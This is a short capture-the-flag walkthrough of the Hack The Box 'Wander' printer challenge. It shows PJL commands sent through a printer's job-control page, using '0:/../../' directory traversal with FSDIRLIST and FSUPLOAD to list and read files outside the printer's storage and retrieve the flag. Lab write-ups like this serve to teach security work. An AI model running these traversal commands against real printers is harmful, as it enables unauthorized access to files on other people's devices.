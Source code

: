 ```yaml
---
date: 2025-03-17
categories: [CTF, HTB]
title: "HTB - Printer Exploitation Track - Wander"
tags: ['printer', 'pjl', 'pret', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Printer Exploitation Track - - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Printer Exploitation Track - Wander


![image1](../resources/af056491075e468b9f6d39bc99fb0264.png)

Go to the site:

![image2](../resources/776ede1ba6c048d089dd56867599387b.png)

- If we go to Job Controls - we can use PJL commands:

![image3](../resources/b28da66178de4e9986458a4f0b8754df.png)

- Go to this site - download the pdf:
<https://developers.hp.com/hp-printer-command-languages-pcl/doc/print-job-language-pjl>

PDF:

<https://developers.hp.com/system/files/attachments/PJLReference%282003%29_0.pdf>

- Here it explains PJL commands and how to use them.

- If we use 
**@PJL FSDIRLIST NAME="0:" ENTRY=1**

![image4](../resources/61984fe4c3a847fd8ab793d1bdd14e57.png)

- We can see the current dir

- We can try and go up the directory tree with:

**@PJL FSDIRLIST NAME="0:/../../" ENTRY=1**


![image5](../resources/a3b2288fbf804858a47fe113aef8d0d2.png)

**@PJL FSDIRLIST NAME="0:/../../home/default" ENTRY=1**


![image6](../resources/6aca901e49de4c189e458ecc22619795.png)

- Downloading doesn't work for me:

**@PJL FSDOWNLOAD FORMAT:BINARY NAME="0:/../../home/default/readyjob" SIZE=457**

- But using upload - it seems you can read the file:

**@PJL FSUPLOAD FORMAT:BINARY NAME="0:/../../home/default/readyjob" SIZE=457**


![image7](../resources/be427bb97ceb4dd080b4742a8499aa25.png)

And we get the flag